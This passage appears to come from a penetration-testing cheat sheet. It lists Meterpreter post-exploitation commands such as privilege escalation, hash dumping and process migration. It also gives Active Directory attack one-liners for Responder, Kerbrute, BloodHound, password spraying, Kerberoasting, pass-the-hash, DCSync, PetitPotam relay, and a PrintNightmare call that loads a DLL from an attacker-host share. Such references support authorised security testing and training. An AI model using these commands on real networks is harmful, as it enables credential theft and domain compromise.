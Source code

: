 | Command                               | Description                                                  |
| ------------------------------------- | ------------------------------------------------------------ |
| `sysinfo`                             | Show system information.                                     |
| `getsystem`                           | Attempt various techniques to escalate to SYSTEM privileges. |
| `ps`                                  | List running processes.                                      |
| `migrate <PID>`                       | Migrate into a more stable process (e.g., `explorer.exe`).   |
| `hashdump`                            | Dump password hashes from the SAM database.                  |
| `upload <local_path> <remote_path>`   | Upload a file to the target.                                 |
| `download <remote_path> <local_path>` | Download a file from the target.                             |
| `shell`                               | Drop into a standard system command shell.                   |
| `sessions -l`                         | List active sessions.                                        |
| `sessions -i <ID>`                    | Interact with a specific session.                            |

***

## Phase 4: Active Directory Attacks

Techniques specific to Windows Domain environments.

***

### Initial AD Enumeration

| Command                                                                | Description                                                       |
| ---------------------------------------------------------------------- | ----------------------------------------------------------------- |
| `responder -I <interface> -A`                                          | Passively listen for NetBIOS-NS/LLMNR requests to capture hashes. |
| `./kerbrute_linux_amd64 userenum -d <DOMAIN> --dc <DC_IP> <userlist>`  | Enumerate valid usernames via Kerberos pre-authentication.        |
| `crackmapexec smb <DC_IP> --pass-pol`                                  | Enumerate the domain password policy.                             |
| `ldapsearch -h <DC_IP> -x -b "DC=<domain>,DC=<local>"`                 | Perform an anonymous LDAP query to enumerate domain objects.      |
| `bloodhound-python -u <user> -p <pass> -d <domain> -ns <DC_IP> -c all` | Run the BloodHound collector to map the domain.                   |

***

### Credential Attacks & Lateral Movement

| Attack            | Command                                                                                        |
| ----------------- | ---------------------------------------------------------------------------------------------- |
| Password Spraying | `crackmapexec smb <DC_IP> -u <userlist> -p '<password>'`                                       |
| Kerberoasting     | `GetUserSPNs.py <DOMAIN>/<USER> -request -outputfile hashes.txt`                               |
| AS-REP Roasting   | `GetNPUsers.py <DOMAIN>/ -usersfile <userlist> -format hashcat -no-pass`                       |
| Pass-The-Hash     | `impacket-psexec -hashes :<ntlm_hash> <user>@<TARGET_IP>`                                      |
| DCSync            | `secretsdump.py -just-dc-user <user_to_dump> <DOMAIN>/<USER>:<PASS>@<DC_IP>`                   |
| PrintNightmare    | `python3 CVE-2021-1675.py <domain>/<user>:<pass>@<TARGET> '\\<ATTACKER_IP>\share\payload.dll'` |
| PetitPotam + ADCS | `ntlmrelayx.py -t http://<CA_SERVER>/certsrv/certfnsh.asp --adcs --template DomainController`  |
